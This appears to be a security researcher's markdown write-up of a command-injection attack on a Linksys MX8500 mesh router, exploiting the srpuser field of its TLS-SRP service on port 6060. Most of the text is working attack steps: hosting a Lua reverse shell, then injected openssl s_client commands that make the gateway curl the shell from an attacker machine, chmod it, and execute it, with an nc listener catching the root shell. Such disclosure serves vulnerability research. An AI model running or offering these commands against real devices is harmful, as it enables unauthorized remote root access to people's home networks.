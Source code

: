 # Linksys Mesh Network Attack
## Intro
In this write-up, we use Linksys MX8500, firmware version 1.0.11.208937 as an illustration example. 

Linksys uses TLS-SRP as its NAPS protocol. The gateway node opens TCP port 6060 for this purpose. 

We identify a command injection for the `srpuser` field:

![](./srpuser_cmd_injection.png)

Thus, the key to breaking this protocol is that an attacker can taint the `srpuser` field in a TLS-SRP connection, to contain malicious commands. 

## Attack Step 1: Prepare a reverse shell script

I used [Reverse Shell Generator](https://www.revshells.com/) to generate a lua reverse shell for MX8500. 
Download my reverse shell [here](./luashell.sh), and you might want to change IP address and port number within this script to your own local machine's.

## Attack Step 2: Use openssl s_client to attack the gateway node
Install openssl on your own local machine. 

Host your lua shell prepared in Step 1 using this command: 
```
python3 -m http.server 4444
```

Run this command to let the gateway node (10.154.1.1) download the shell script from your local machine:

```
openssl s_client -srpuser "123| curl http://10.154.1.14:4444/luashell.sh -o /tmp/luashell.sh;" -srppass pass:xxxxxx -cipher SRP -connect 10.154.1.1:6060
```

Run this command to let the gateway node chmod 777 the shell script:
```
openssl s_client -srpuser "123; chmod 777 /tmp/luashell.sh;" -srppass pass:xxxxxx -cipher SRP -connect 10.154.1.1:6060
```

Run `nc` on your own local machine to listen to reverse shell connections:
```
nc -l 9002
```

Finally, run this command to execute the shell script on the gateway node:
```
openssl s_client -srpuser "123| /tmp/luashell.sh;" -srppass pass:xxxxxx -cipher SRP -connect 10.154.1.1:6060
```

We can see the result on the `nc` screen:
![](./linksys_root.png)

